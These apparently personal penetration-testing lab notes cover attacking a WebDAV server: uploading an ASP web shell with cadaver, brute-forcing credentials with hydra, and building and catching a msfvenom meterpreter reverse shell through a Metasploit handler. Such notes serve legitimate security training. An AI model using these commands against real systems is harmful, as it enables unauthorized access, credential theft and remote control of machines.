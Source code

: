 + On `cadaver` can <mark style="background: #ADCCFFA6;">upload the web-shell</mark> with the following:
	+ `put /usr/share/webshells/asp/webshell.asp` 
		+ uploads the file, can even see it was uploaded from the browser
		+ Can also `execute` it from the browser, will now be able to execute commands on the target system 
+ On Windows remember that `ls` is `dir`
	+ can list the C drive with: `dir C:\`
+ Also remember on Windows that `cat` is `type`

<mark style="background: #FFB86CA6;">--script=http-enum</mark>
+ nmap scan to <mark style="background: #ADCCFFA6;">get information about the Http servers</mark>, including if WebDAV is running 
+ Example: `nmap -sV -p 80 10.3.18.171 --script=http-enum`
  + will often have the WebDAV directory as `/webdav/`
  + will also often say if you get a 401 unauthorized, meaning WebDAV needs credentials 

<mark style="background: #D2B3FFA6;">hydra</mark> can be used to <mark style="background: #ADCCFFA6;">brute force the credentials</mark> 
+ Example: `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.18.171 http-get /webdav/`
  + Where both the username and password is brute-force
  + `-L` to specify user list
  + `-P` to specify password list
  + the directory `/webdav/` will be gotten with a http-get and provided credentials 

### Exploiting WebDAV With Metasploit 

#### Manual Way 
<mark style="background: #D2B3FFA6;">msfvenom</mark>
+ Can be used to <mark style="background: #ADCCFFA6;">generate a payload</mark> to get a meterpreter session, which is an advance reverse shell (upload/download files)
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=USERIP LPORT=1234 -f asp > shell.asp`
	+ payload is specified with `-p`
	+ `LHOST` is our computer 
	+ `LHOST` is the port we will listen with 
	+ `-f` is to specify file type
	+ `>` sends it to the file with the specified name

Can now use <mark style="background: #D2B3FFA6;">cadaver</mark> to <mark style="background: #ADCCFFA6;">send the payload</mark>
+ To get webdav sudo shell:
	+ Example: `cadaver http://10.3.22.26/webdav`
	+ Will also need to put username and password
+ Now can upload the payload: 
	+ Example: `put /root/shell.asp`

Now need to set up a <mark style="background: #BBFABBA6;">listener</mark> or <mark style="background: #BBFABBA6;">handler</mark> to listen for out payload reaching out to us when we run it
+ Will first set up the postgresql service because metasploit needs it 
	+ `service postgresql start && msfconsole`
+ Then will set up the handler:
	+ `use multi/handler`
	+ `set payload windows/meterpreter/reverse_tcp`
	+ `set LHOST 10.1.0.9` (our IP)
	+ `set LPORT 1234` (based on what we put in the payload)
